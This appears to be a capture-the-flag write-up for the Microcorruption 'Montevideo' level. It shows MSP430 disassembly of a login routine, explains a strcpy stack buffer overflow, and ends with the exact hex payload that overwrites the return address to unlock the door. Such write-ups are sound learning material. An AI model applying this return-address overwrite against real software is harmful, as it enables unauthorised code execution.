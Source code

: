 # Montevideo

**Date Completed:** 10/16/2025

Before even running the program on the debugger I started by inspecting `<login>` and trying to understand how this program differs from Whitehorse.

```asm
44f4 <login>
44f4:  3150 f0ff      add	#0xfff0, sp
44f8:  3f40 7044      mov	#0x4470 "Enter the password to continue.", r15
44fc:  b012 b045      call	#0x45b0 <puts>
4500:  3f40 9044      mov	#0x4490 "Remember: passwords are between 8 and 16 characters.", r15
4504:  b012 b045      call	#0x45b0 <puts>
4508:  3e40 3000      mov	#0x30, r14
450c:  3f40 0024      mov	#0x2400, r15
4510:  b012 a045      call	#0x45a0 <getsn>
4514:  3e40 0024      mov	#0x2400, r14
4518:  0f41           mov	sp, r15
451a:  b012 dc45      call	#0x45dc <strcpy>
451e:  3d40 6400      mov	#0x64, r13
4522:  0e43           clr	r14
4524:  3f40 0024      mov	#0x2400, r15
4528:  b012 f045      call	#0x45f0 <memset>
452c:  0f41           mov	sp, r15
452e:  b012 4644      call	#0x4446 <conditional_unlock_door>
4532:  0f93           tst	r15
4534:  0324           jz	$+0x8 <login+0x48>
4536:  3f40 c544      mov	#0x44c5 "Access granted.", r15
453a:  023c           jmp	$+0x6 <login+0x4c>
453c:  3f40 d544      mov	#0x44d5 "That password is not correct.", r15
4540:  b012 b045      call	#0x45b0 <puts>
4544:  3150 1000      add	#0x10, sp
4548:  3041           ret
```

The first few lines are the same:

- make room on the stack (16 bytes) for the user input (remember, adding `#0xfff0` is the same as subtracting `#0x10`)
- prompt the user to enter password
- get user input for the password
  - pass `0x30` (i.e. 48 bytes) as the length of the buffer
  - input buffer in memory location `0x2400`

Then we see a call to `strcpy` to copy the input buffer at `0x2400` onto the stack pointer. Since `strcpy` will copy up to the null-terminating string, we should be able to craft the input so that we copy past the 16-byte space allocated on the stack and do something similar to what we did in [whitehorse](./06-whitehorse.md) where we overwrite the return memory address to jump to the unlock method.

When we enter `strcpy`, this is what the stack looks like:

```sh
> r sp
43ec 1e45 0000 0000 0000 0000 0000 0000 0000  .E..............
43fc 0000 3c44 3140 0044 1542 5c01 75f3 35d0  ..<D1@.D.B\.u.5.
```

The first word is the return address back to `<login>`, followed by 16-byte buffer which is the destination parameter of `strcpy`, followed by the return address from `<login>`. So we want to overwrite the value at address `43fe` (i.e `443c`) to point to `<INT>` similar to what we did in the [whitehorse](./06-whitehorse.md)` solution:

`a5a5a5a5a5a5a5a5a5a5a5a5a5a5a5a5 + 4c45 + 3645 + 7f00`

```sh
> solve
a5a5a5a5a5a5a5a5a5a5a5a5a5a5a5a54c4536457f00
```

